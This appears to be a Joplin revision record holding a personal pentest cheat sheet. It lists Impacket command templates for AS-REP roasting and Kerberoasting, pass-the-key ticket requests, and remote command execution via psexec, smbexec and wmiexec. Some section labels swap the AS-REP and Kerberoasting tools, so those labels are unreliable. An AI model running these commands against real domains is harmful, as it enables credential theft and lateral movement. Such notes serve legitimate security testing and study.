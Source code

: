id: b89962f6d1224fa192759d928ca38101
parent_id: 
item_type: 1
item_id: 69508366539649a09286d7f3274ed2b6
item_updated_time: 1642314696985
title_diff: "[{\"diffs\":[[1,\"Impacket Kerberoasting\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":22}]"
body_diff: "[{\"diffs\":[[1,\"## Check for Kerberoasting:\\\n\\\n- GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <ip>-format hashcat/john</ip>\\\n\\\n## GetUserSPNs\\\n\\\nASREPRoast:\\\n\\\n- impacket-GetUserSPNs &lt;domain\\\\_name&gt;/&lt;domain\\\\_user&gt;:&lt;domain\\\\_user\\\\_password&gt; -request -format &lt;AS\\\\_REP\\\\_responses\\\\_format \\\\[hashcat | john\\\\]&gt; -outputfile &lt;output\\\\_AS\\\\_REP\\\\_responses_file&gt;\\\n- impacket-GetUserSPNs &lt;domain\\\\_name&gt;/ -usersfile &lt;users\\\\_file&gt; -format &lt;AS\\\\_REP\\\\_responses\\\\_format \\\\[hashcat | john\\\\]&gt; -outputfile &lt;output\\\\_AS\\\\_REP\\\\_responses_file&gt;\\\n\\\nKerberoasting:\\\n\\\n- impacket-GetUserSPNs &lt;domain\\\\_name&gt;/&lt;domain\\\\_user&gt;:&lt;domain\\\\_user\\\\_password&gt; -outputfile &lt;output\\\\_TGSs\\\\_file&gt;\\\n\\\nOverpass The Hash/Pass The Key (PTK):\\\n\\\n- python3 getTGT.py &lt;domain\\\\_name&gt;/&lt;user\\\\_name&gt; -hashes \\\\[lm\\\\_hash\\\\]:&lt;ntlm\\\\_hash&gt;\\\n- python3 getTGT.py &lt;domain\\\\_name&gt;/&lt;user\\\\_name&gt; -aesKey &lt;aes_key&gt;\\\n- python3 getTGT.py &lt;domain\\\\_name&gt;/&lt;user\\\\_name&gt;:\\\\[password\\\\]\\\n\\\n## Using TGT key to excute remote commands from the following impacket scripts:\\\n\\\n- python3 psexec.py &lt;domain\\\\_name&gt;/&lt;user\\\\_name&gt;@&lt;remote_hostname&gt; -k -no-pass\\\n- python3 smbexec.py &lt;domain\\\\_name&gt;/&lt;user\\\\_name&gt;@&lt;remote_hostname&gt; -k -no-pass\\\n- python3 wmiexec.py &lt;domain\\\\_name&gt;/&lt;user\\\\_name&gt;@&lt;remote_hostname&gt; -k -no-pass\\\n\\\n# Impacket General Information\\\n\\\n## In Kali\\\n\\\napt install impacket-scripts\\\n\\\n## Github\\\n\\\nhttps://github.com/SecureAuthCorp/impacket\\\n\\\n## Local Locations:\\\n\\\n/usr/share/doc/python3-impacket/examples\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1568}]"
metadata_diff: {"new":{"id":"69508366539649a09286d7f3274ed2b6","parent_id":"c900bb1263d649dd801144a9657e4075","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T06:35:29.264Z
created_time: 2022-01-16T06:35:29.264Z
type_: 13